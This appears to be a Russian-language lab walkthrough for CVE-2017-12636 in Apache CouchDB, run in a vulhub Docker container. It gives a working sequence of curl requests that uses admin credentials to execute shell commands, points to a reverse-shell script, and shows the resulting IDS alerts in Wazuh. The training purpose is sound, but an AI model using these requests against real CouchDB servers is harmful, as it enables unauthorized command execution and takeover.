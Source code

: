 # CVE-2017-12636

Пользователи с ролью администратора CouchDB могут настраивать сервер базы данных через HTTP(S). Некоторые параметры конфигурации включают пути к исполняемым файлам на уровне операционной системы, которые впоследствии запускаются CouchDB. Это позволяет администратору в Apache CouchDB до версии 1.7.0 и 2.x до версии 2.1.1 выполнять произвольные команды оболочки от имени пользователя CouchDB, включая загрузку и выполнение скриптов из интернета.

### Материалы:

* [https://www.opencve.io/cve/CVE-2017-12636](https://www.opencve.io/cve/CVE-2017-12636)
* [https://nvd.nist.gov/vuln/detail/CVE-2017-12636](https://nvd.nist.gov/vuln/detail/CVE-2017-12636)
* [https://docs.couchdb.org/en/stable/cve/2017-12636.html](https://docs.couchdb.org/en/stable/cve/2017-12636.html)

### Эксплуатация уязвимости

> Контейнер с уязвимой средой находится в директории /home/user/Hackathon/vulhub-master/couchdb/CVE-2017-12636

Для запуска уязвимой среды выполните команду:

```
docker compose up -d
```

Для эксплуатации уязвимости выполнения произвольных команд, используйте инструкцию к [CVE-2017-12635](../containers/couchdb/cve-2017-12635.md) для создания пользователя с ролью администратора

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

#### Эксплоит для версии 1.x

Последовательно отправьте следующие запросы, чтобы реализовать уязвимость выполнения произвольного кода

```
curl -X PUT 'http://vulhub:vulhub@ваш-ip:5984/_config/query_servers/cmd' -d '"id >/tmp/success"'
curl -X PUT 'http://vulhub:vulhub@ваш-ip:5984/vultest'
curl -X PUT 'http://vulhub:vulhub@ваш-ip:5984/vultest/vul' -d '{"_id": "770895a97726d5ca6d70a22173005c7b"}'
curl -X POST 'http://vulhub:vulhub@ваш-ip:5984/vultest/_temp_view?limit=10' -d '{"language": "cmd", "map":""}' -H 'Content-Type: application/json'
```

Где vulhub:vulhub - это учетная запись и пароль администратора.

Первый запрос добавляет query\_servers с именем cmd и значением "id >/tmp/success" - это команда, которую мы собираемся выполнить.

Второй и третий запросы добавляют базу данных и документ, к которому можно будет обращаться только после того, как он будет добавлен.

Четвертый запрос - это выполнение запроса в этой базе данных, используется query\_servers с именем cmd, который был добавлен на первом шаге, и, наконец, выполнение команды.

Помимо эксплуатации "вручную" есть [скрипт](https://github.com/vulhub/vulhub/blob/master/couchdb/CVE-2017-12636/exp.py), автоматизирующий получение обратной оболочку уязвимого хоста.

Для получения шелла измените ip-адрес уязвимой машины в переменной "target" и ip-адрес и порт машины, на которую вы хотите получить обратную оболочку в переменной "command", поставьте listener на выбранный порт и запустите скрипт

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

В Wazuh ([https://ваш-ip/app/wazuh](https://xn---ip-5cdj7k/app/wazuh)) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации CouchDB RCE

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>
